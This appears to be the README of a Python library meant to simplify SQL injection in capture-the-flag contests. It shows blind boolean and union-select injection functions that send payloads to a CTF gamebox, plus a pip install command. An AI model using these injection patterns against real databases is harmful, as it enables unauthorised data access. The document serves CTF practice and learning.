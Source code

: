 # SQLInjectLib

## Introduction

> A library to simplify SQL injections during CTFs

## Code samples

> Extracted from a CTF, some parts were omitted
>
> ### Blind Injection
>
> ```python
> def blind_injection(q: SQL[bool]) -> bool:
>    query = f"animals1' and ({q})--"
>    final_query = replace_all(query)
>    c = post(
>        "http://gamebox1.reply.it/dc5ff0efae41b3500b9ebc0ee9ee5a78c98f41a9/",
>        data={"query": final_query},
>    )
>    return "ANIMALS1" in c.text
> ```
>
> ### Union Injection
>
> ```python
> def union_injection(q: SQL[str]) -> str | None:
>   query = f"hdjhfjdf' union select 'aa','aa;aa',{q},1--"
>   final_query = replace_all(query)
>   c = post(
>       "http://gamebox1.reply.it/dc5ff0efae41b3500b9ebc0ee9ee5a78c98f41a9/",
>       data={"query": final_query},
>   )
>   m = TAG_FINDER.search(c.text)
>   result = m.group(1)
>   return result
> ```

## Installation

> Install locally with:
>
> ```bash
> python3 -m pip install sqlinjectlib
> ```

